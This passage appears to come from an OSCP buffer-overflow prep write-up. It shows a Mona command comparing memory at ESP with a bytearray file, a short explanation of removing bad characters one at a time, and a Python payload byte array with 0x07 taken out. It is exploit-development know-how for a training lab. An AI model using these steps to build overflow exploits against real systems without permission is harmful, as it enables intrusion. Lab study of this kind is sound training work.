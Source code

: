 Now use Mona to compare the contents of memory starting at the address in ESP with the bytearray.bin file we created earlier:

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 0175FA30
```

![bofprep-compare-esp](/assets/images/2021-03-09-22-44-55.png)

From the output we can see the comparison, and at the bottom it lists the possible bad chars. We just repeat this process removing each of the bad chars one at a time until we have no bad ones left. So start by removing 07, our payload is changed to this:

```text
payload = (
  "\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```
